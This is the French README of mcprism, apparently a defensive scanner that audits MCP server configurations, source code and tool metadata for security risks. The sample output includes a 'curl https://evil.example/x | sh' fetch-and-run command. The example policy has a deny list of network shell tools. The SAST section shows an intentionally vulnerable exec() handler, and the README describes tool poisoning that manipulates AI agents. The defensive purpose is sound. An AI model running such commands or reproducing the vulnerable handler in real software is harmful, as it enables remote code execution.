

<div align="center">

<p><a href="README.md">English</a> · <a href="README.zh-CN.md">简体中文</a> · <a href="README.ja-JP.md">日本語</a> · <a href="README.ko-KR.md">한국어</a> · Français · <a href="README.de-DE.md">Deutsch</a> · <a href="README.es-ES.md">Español</a> · <a href="README.ru-RU.md">Русский</a> · <a href="README.ar-SA.md">العربية</a></p>


# mcprism

**Vérifiez les serveurs MCP avant que votre IA ne leur fasse confiance.**

mcprism est un scanner de sécurité pour les serveurs [Model Context Protocol](https://modelcontextprotocol.io/). Il examine un serveur sous trois angles :

1. **Configuration** — la façon dont un client le lance ou y accède : paquets épinglés à une version, transport en clair, identifiants dans la configuration, cibles vers les métadonnées cloud et les réseaux privés.
2. **Code source** — quand l'implémentation est sur le disque, il lit les gestionnaires d'outils JS/TS/Python/Go et suit les arguments contrôlables par un agent jusqu'à des points de sortie dangereux : exécution de processus, requêtes sortantes (SSRF) et chemins de fichiers, ainsi qu'eval, la désérialisation dangereuse et les secrets codés en dur.
3. **Exécution** — il effectue la poignée de main MCP pour lister les outils, ressources et invites, et vérifie l'empoisonnement des métadonnées d'outils. Il n'appelle jamais un outil.

Chaque serveur reçoit une liste de constats, un score de 0 à 100 et une note de A à F. mcprism se présente comme un seul binaire Go sans dépendance d'exécution, fonctionne entièrement hors ligne et n'a aucun effet de bord.

[](https://github.com/HUA503/mcprism/actions/workflows/ci.yml)
[](https://github.com/HUA503/mcprism/releases)
[](https://goreportcard.com/report/github.com/HUA503/mcprism)
[](https://go.dev)
[](LICENSE)

</div>

---

<p align="center">
  
</p>

<p align="center">
  
</p>

MCP connecte votre agent IA à des serveurs externes pour des outils, des fichiers et des données. Le protocole est intégré à Claude Desktop et Claude Code, Cursor, VS Code, Windsurf et d'autres, donc une installation type accède vite à plusieurs serveurs. Ces serveurs exécutent des commandes, lisent le système de fichiers et voient vos invites. Un serveur malveillant ou trop privilégié peut voler des identifiants, exécuter des commandes ou manipuler l'agent via le texte qu'il renvoie. mcprism vous donne un rapport et un score par serveur avant qu'un agent ne les utilise, comme on lancerait `trivy` sur une image.

<p align="center">
  
</p>

## Démarrage rapide en deux lignes

```sh
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
mcprism scan
```

## Vérifier un serveur en une ligne

Vérifiez une commande de lancement, une URL, un paquet ou un code sur le disque sans l'ajouter à une configuration :

```sh
mcprism vet -- npx -y some-mcp-server
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet ./path/to/server     # vérifier une arborescence source
mcprism vet server.py            # vérifier un fichier
```

`vet` est statique par défaut et n'exécute pas la cible. Ajoutez `--probe` pour la lancer et énumérer ses outils, ressources et invites. Une arborescence ou un fichier source passe par le moteur SAST ci-dessous, sans réseau.

<p align="center">
  
</p>

## Sommaire

- [Journal des modifications](CHANGELOG.md)
- [Surface d'attaque](docs/MCP-ATTACK-SURFACE.md)
- [Kit de lancement](docs/LAUNCH-KIT.md)
- [Fonctions](#fonctions)
- [Quand l'utiliser](#quand-lutiliser)
- [Rapport](#rapport)
- [Installation](#installation)
- [Démarrage rapide](#démarrage-rapide)
- [Exemple de sortie](#exemple-de-sortie)
- [Politique sous forme de code](#politique-sous-forme-de-code)
- [Revue de code source (SAST)](#revue-de-code-source-sast)
- [Ce qui est détecté](#ce-qui-est-détecté)
- [Formats de sortie](#formats-de-sortie)
- [Clients et transports pris en charge](#clients-et-transports-pris-en-charge)
- [CI/CD](#cicd)
- [Fonctionnement](#fonctionnement)
- [Comparaison](#comparaison)
- [FAQ](#faq)
- [Feuille de route](#feuille-de-route)
- [Contribuer](#contribuer)

## Fonctions

- Un seul binaire. Pas d'installation Python ou Node, pas de clé d'API LLM, pas de compte.
- Vérifications statique, source et en direct. Il lit la configuration, examine le source JS/TS/Python/Go quand une arborescence est présente, et effectue la poignée de main MCP pour lister les outils, ressources et invites. Il n'appelle jamais un outil.
- Politique sous forme de code. Activez/désactivez des règles, changez les sévérités, autorisez ou refusez des paquets, commandes et domaines, et exigez l'isolation réseau. Les profils intégrés offrent les bases `default`, `strict` et `ci`.
- Registre des risques acceptés. Supprimez des constats avec une raison et une date d'expiration. Les éléments supprimés restent visibles dans le rapport et reviennent à expiration.
- Déterministe et hors ligne. 33 règles mappées sur OWASP MCP01–MCP07 ; rien ne quitte votre machine.
- Des rapports pour les humains et les machines : table, JSON, Markdown, HTML, SARIF, JUnit XML, SBOM CycloneDX et CSV.
- Scannez plusieurs cibles à la fois : fichiers, répertoires (récursivement) ou URL.

## Quand l'utiliser

- Vous avez installé des serveurs MCP et voulez savoir ce qu'ils atteignent avant qu'un agent ne les lance. Exécutez `mcprism scan`.
- Une équipe partage un ensemble de serveurs et veut une base documentée. Gardez un `policy.yml` en gestion de versions et lancez `--profile strict` sur les machines de production.
- Vous examinez les changements en CI. Lancez `mcprism scan --profile ci` pour faire échouer le build dès le niveau high, ou publiez le SARIF dans l'analyse de code.

## Rapport

<p align="center">
  
</p>

Revue par lots de nombreux serveurs (mode statique) :

<p align="center">
  
</p>

## Installation

```sh
# Installeur en une ligne (Linux / macOS / Windows via Git Bash)
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
```

```sh
# Go
go install github.com/HUA503/mcprism/cmd/mcprism@latest
```

Ou téléchargez un binaire depuis la page des [versions](https://github.com/HUA503/mcprism/releases) (Linux/macOS/Windows, amd64 et arm64). Homebrew, Scoop et Nix sont au programme.

## Démarrage rapide

```sh
# Détecte automatiquement les configurations de Claude Desktop, Claude Code, Cursor, VS Code, ...
mcprism scan

# Un fichier de configuration précis
mcprism scan ~/.claude.json

# Un répertoire, analysé récursivement
mcprism scan ./configs

# Un serveur distant
mcprism scan https://mcp.example.com/v1

# Plusieurs cibles ensemble
mcprism scan a.json b.json ./configs

# Entièrement hors ligne / statique uniquement (aucun processus lancé, aucune connexion)
mcprism scan mcp.json --no-dynamic

# Appliquer une base ou une politique personnalisée
mcprism scan --profile strict
mcprism scan --policy policy.yml --suppressions suppressions.yml

# Interface terminal interactive
mcprism scan -i

# Vérifier une commande / URL / un paquet sans écrire de configuration
mcprism vet -- npx -y some-mcp-server
mcprism vet "uvx some-mcp-server"
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet --probe -- npx -y some-mcp-server   # lancer réellement et lister les outils

# Référence
mcprism inspect mcp.json     # lister les outils/ressources/invites d'un serveur
mcprism rules                # lister les règles intégrées
mcprism profiles             # lister les profils intégrés
```

### Options

| Option | Description |
|---|---|
| `-f, --format` | `table` (défaut) · `json` · `sarif` · `md` · `html` · `junit` · `cyclonedx` · `csv` |
| `-o, --output` | Écrire le rapport dans un fichier |
| `-p, --policy` | Chemin vers un fichier de politique YAML |
| `--profile` | Profil intégré : `default` · `strict` · `ci` |
| `--suppressions` | Chemin vers un fichier de suppressions YAML |
| `--no-dynamic` | Analyse statique uniquement ; ne lance aucun processus et ne se connecte pas |
| `--fail-on` | Code de sortie non nul sur `critical` / `high` / `medium` / `low` |
| `--timeout` | Délai de poignée de main par serveur (défaut `10s`) |
| `-i, --interactive` | Parcourir les constats dans un TUI |
| `--transport` | Forcer `http` (Streamable HTTP) ou `sse` (ancien) pour les URL |
| `--probe` (`vet`) | Lancer/connecter réellement et énumérer les outils ; exécute la cible, préférez un bac à sable |

## Exemple de sortie

Scan de deux serveurs locaux en mode statique :

```text
◆ mcprism   v0.2.0 · 2026-09-29
────────────────────────────────────────────────
 A  notes  ◌ static only
  npx -y @acme/notes-mcp@2.0.1
  capabilities: none
  ✓ No issues detected

 F  shell  ◌ static only
  bash -c curl -s https://evil.example/x | sh
  capabilities: SHELL · NET
  CRIT MCP104  Remote code fetched and executed by shell
  CRIT MCP301  Command execution combined with network access
────────────────────────────────────────────────
2 servers · 2 findings
2 CRIT  0 HIGH  0 MED  0 LOW
```

Les formats HTML et SARIF ajoutent les preuves, les conseils et le mappage OWASP.

## Politique sous forme de code

Un fichier de politique est un document YAML versionné. Il fixe les conditions de réussite/échec, remplace des règles individuelles, liste les paquets/commandes/domaines autorisés et refusés, et peut imposer aux serveurs ayant accès aux fichiers ou au shell de n'avoir aucune sortie réseau.

```yaml
version: "1"
fail:
  on: high
  grade: B
  score: 70
rules:
  MCP106:
    severity: high
allow:
  packages: ["@modelcontextprotocol/*"]
deny:
  commands: [nc, ncat]
  domains: ["*.ngrok.io"]
capabilities:
  requireNetworkIsolation: true
```

Une correspondance à un refus est signalée par `MCP700` ; un serveur fichier/shell ayant accès au réseau sous isolation est signalé par `MCP701`. Voir [`examples/policy.yml`](examples/policy.yml), [`examples/suppressions.yml`](examples/suppressions.yml) et le [guide des politiques](docs/POLICIES.md). Pour les portes de conformité et les sorties machine, voir [docs/COMPLIANCE.md](docs/COMPLIANCE.md).

## Revue de code source (SAST)

La configuration indique comment un serveur est lancé, pas ce qu'un gestionnaire fait d'un argument. Un serveur qui semble correct en configuration peut quand même passer un paramètre d'outil directement à un shell, l'utiliser comme URL de requête ou ouvrir un chemin construit à partir de lui. Ces bogues sont dans l'implémentation, donc mcprism lit le code.

Pointez `vet` vers une arborescence ou un seul fichier. Aucune étape de build, aucune dépendance installée et aucun réseau nécessaires :

```sh
mcprism vet ./mcp-server
mcprism vet ./mcp-server/src/tool.ts
```

Il reconnaît les SDK et frameworks courants :

- JavaScript/TypeScript : le `McpServer` de `@modelcontextprotocol/sdk`, le `Server.setRequestHandler` bas niveau et les inscriptions `.tool(...)`.
- Python : le décorateur `@mcp.tool()` de `FastMCP` et le gestionnaire `call_tool` bas niveau.

Pour chaque outil, il considère les arguments du gestionnaire comme contrôlés par un attaquant et les suit d'un bond jusqu'à un point de sortie. Les constats nomment le fichier et la ligne, montrent le code et expliquent comment corriger :

| Règle | Point de sortie | Défaut |
|---|---|---|
| MCP801 | L'entrée d'outil atteint un point de processus/commande (`exec`, `spawn`, `os.system`, `subprocess shell=True`) | critical |
| MCP802 | L'entrée d'outil contrôle une URL de requête (`fetch`, `requests`, `httpx`) — SSRF | high |
| MCP803 | L'entrée d'outil sert de chemin de fichier sans confinement | high |
| MCP804 | Exécution dynamique de code (`eval`, `Function`, `exec`) | high |
| MCP805 | Désérialisation dangereuse (`pickle`, `marshal`, `yaml.load`) | high |
| MCP806 | Identifiant codé en dur dans le source | high |

Il reconnaît les motifs sûrs habituels et reste silencieux quand ils sont présents, pour limiter les faux positifs :

- Une commande fixe avec des arguments passés en tableau (`execFile(cmd, args)`, `subprocess.run([...])`) au lieu d'une chaîne shell.
- Confinement des chemins : `path.resolve(base, name)` vérifié par `startsWith(base)`, ou `realpath` + `startswith` en Python.
- Une URL de base constante au lieu d'un hôte choisi par l'agent, plus `yaml.safe_load` / `SafeLoader`.

Ce gestionnaire est marqué MCP801 car l'agent contrôle la commande :

```js
server.tool("run", { command: z.string() }, async ({ command }) => {
  exec(command, (err, stdout) => callback(stdout));
});
```

La version corrigée utilise une liste d'autorisation et ne lance jamais de shell :

```js
const ALLOWED = { status: ["git", "status"], log: ["git", "log", "-5"] };
server.tool("git", { name: z.string() }, async ({ name }) => {
  const spec = ALLOWED[name];
  if (!spec) throw new Error("not allowed");
  const [cmd, ...args] = spec;
  return execFile(cmd, args);
});
```

Le moteur est fondé sur des motifs avec un niveau de suivi de propagation et sans analyseur tiers, donc le binaire reste petit et autonome. Il ne détecte pas tout ce qu'un analyseur de flux complet verrait ; il vise les trajets courts et directs du gestionnaire au point de sortie, à l'origine de la plupart des bogues de serveurs MCP. Les détails des règles et d'autres exemples sont dans [docs/SAST.md](docs/SAST.md).

<p align="center">
  
</p>

## Ce qui est détecté

- Secrets dans la configuration. Les formats d'identifiants reconnus (AWS, Google, GitHub, Slack, Stripe, GitLab, OpenAI, JWT et d'autres) sont signalés par type, et les valeurs à forte entropie qui ressemblent à des clés générées sont signalées comme secrets possibles. Les valeurs fictives et les références `${ENV_VAR}` ne sont pas signalées.
- Transport en clair et TLS désactivé (`http://`, `NODE_TLS_REJECT_UNAUTHORIZED=0`).
- Permissions trop larges. Serveurs de fichiers montés sur `/` ou le dossier personnel ; bac à sable ou contrôles de permission désactivés.
- Empoisonnement d'outils. Directives d'injection, Unicode invisible/bidirectionnel, HTML/Markdown cachés et blobs encodés dans les noms, descriptions et schémas d'outils.
- Combinaisons de capacités dangereuses, comme shell plus réseau, lecture de fichier plus réseau, ou écriture de fichier plus shell.
- Cibles réseau. Points de métadonnées cloud (`169.254.169.254`) et plages privées/boucle locale.
- Risque de chaîne d'approvisionnement : paquets non épinglés, noms de type typosquat et code exécuté directement depuis une URL distante.
- Violations de politique : paquets/commandes/domaines refusés et isolation réseau rompue.
- Défauts de code source dans les gestionnaires JS/TS/Python/Go : arguments d'outils atteignant des points de commande, réseau et fichier, eval/exec, désérialisation dangereuse et secrets codés en dur. Voir [Revue de code source](#revue-de-code-source-sast).
- Collisions de noms d'outils entre serveurs et échecs de connexion classifiés (DNS / TLS / refus / délai / commande absente).

La liste complète avec la correspondance OWASP est dans [docs/RULES.md](docs/RULES.md).

## Formats de sortie

| Format | Usage type |
|---|---|
| `table` | Sortie terminal |
| `json` | Outils personnalisés |
| `sarif` | Analyse de code GitHub |
| `md` | Rapports Markdown / tickets |
| `html` | Rapport autonome partageable |
| `junit` | Rapports de tests Jenkins, GitLab et GitHub |
| `cyclonedx` | SBOM / ingestion de vulnérabilités |
| `csv` | Tableurs et flux GRC |

## Clients et transports pris en charge

mcprism lit la configuration MCP JSON/JSONC utilisée par Claude Desktop, Claude Code, Cursor, VS Code (GitHub Copilot Chat), Windsurf, Cline, Continue et outils similaires, sous formes d'objet `mcpServers` et de tableau. Il gère les trois transports MCP : stdio, Streamable HTTP et l'ancien HTTP+SSE.

## CI/CD

Bloquez les serveurs risqués dans un pipeline avec le profil `ci` :

```yaml
- name: Audit MCP servers
  run: |
    curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
    mcprism scan mcp.json --no-dynamic --profile ci
```

Publiez dans l'analyse de code GitHub via SARIF :

```yaml
- name: Scan & upload
  run: mcprism scan mcp.json -f sarif -o mcp.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: mcp.sarif
```

La sortie JUnit fonctionne avec les étapes de rapport de tests de Jenkins et GitLab, et la sortie CycloneDX peut être remise à un suivi SBOM ou de vulnérabilités.

## Fonctionnement



mcprism ne fait qu'énumérer les capacités, donc l'analyse n'a pas d'effet de bord. Le serveur de démonstration fourni (`examples/testserver`) simule des comportements risqués sans les exécuter. La structure des paquets et les flux de données sont décrits dans [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md).

## Comparaison

D'après les descriptions publiques des projets (les fonctions peuvent changer) :

| | **mcprism** | mcp-scan | mcp-audit | revue manuelle |
|---|---|---|---|---|
| Langage / runtime | Go, binaire unique | Python | Python/Node | — |
| Zéro dépendance d'installation/runtime | ✅ | ❌ | ❌ | — |
| Revue statique de la configuration | ✅ | ✅ | partielle | ❌ |
| Énumération en direct des capacités | ✅ | partielle | partielle | ❌ |
| SAST du code source (propagation gestionnaire-point de sortie) | ✅ | ❌ | ❌ | ❌ |
| Détection d'empoisonnement d'outils | ✅ | ✅ | partielle | ❌ |
| Modélisation des combinaisons de capacités | ✅ | ❌ | ❌ | ❌ |
| Politique sous forme de code (autoriser/refuser/isoler) | ✅ | ❌ | ❌ | ❌ |
| Sortie JUnit / CycloneDX / CSV | ✅ | ❌ | ❌ | ❌ |
| Scan récursif et multi-cibles | ✅ | partielle | ❌ | ❌ |
| SARIF + codes de sortie CI | ✅ | ✅ | ❌ | ❌ |
| Entièrement hors ligne, sans LLM | ✅ | ✅ | partielle | ✅ |
| Multiplateforme | ✅ | partielle | partielle | — |

## FAQ

**mcprism appelle-t-il mes outils ?**
Non. Il effectue uniquement l'initialisation MCP et les appels de liste. Les outils ne sont pas invoqués, les fichiers ne sont pas ouverts via un serveur et les invites ne sont pas envoyées.

**Envoie-t-il des données quelque part ?**
Non. Les règles tournent localement et il n'y a pas de télémétrie. Une analyse en direct ne parle qu'au serveur indiqué pour la poignée de main ; `--no-dynamic` supprime même cela.

**En quoi diffère-t-il de mcp-scan ou mcp-audit ?**
Ceux-ci tournent sur Python ou Node et se concentrent sur la configuration ou l'empoisonnement. mcprism est un binaire Go unique, modélise les combinaisons de capacités, applique une politique sous forme de code et émet JUnit, CycloneDX et CSV en plus du SARIF. Voir le [tableau comparatif](#comparaison).

**Un constat est un faux positif dans mon installation. Que faire ?**
Corrigez le problème sous-jacent si possible, ou supprimez-le avec une raison et une expiration. Les éléments supprimés restent visibles et expirent seuls. Voir [docs/POLICIES.md](docs/POLICIES.md).

**Un rapport propre signifie-t-il que le serveur est sûr ?**
Non. mcprism signale les risques connus et observables. Il ne peut pas prouver qu'un serveur est sûr, donc n'exécutez que des serveurs de confiance.

## Feuille de route

- [ ] Plus de règles et moins de faux positifs au fil de l'évolution de la spécification MCP
- [ ] Analyse des registres / places de marché MCP
- [ ] Règles définies par l'utilisateur au-delà des surcharges de politique
- [ ] Crochet pre-commit et intégrations éditeur
- [ ] Paquets Homebrew, Scoop et Nix

## Contribuer

Les issues et PR sont bienvenues. Une bonne contribution de règle est un contrôle à signal fort, déterministe et à faible taux de faux positifs : ajoutez-le sous `internal/rules`, mappez-le à un risque OWASP MCP et incluez un test. La structure du code est dans [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md). Lancez `go vet ./... && go test ./...` avant d'ouvrir une PR.

## Licence

[MIT](LICENSE) © mcprism contributors.

mcprism est un outil défensif. Il signale les risques ; il ne prouve pas qu'un serveur est sûr, et un rapport propre n'est pas une raison de faire confiance à un serveur que vous ne comprenez pas.
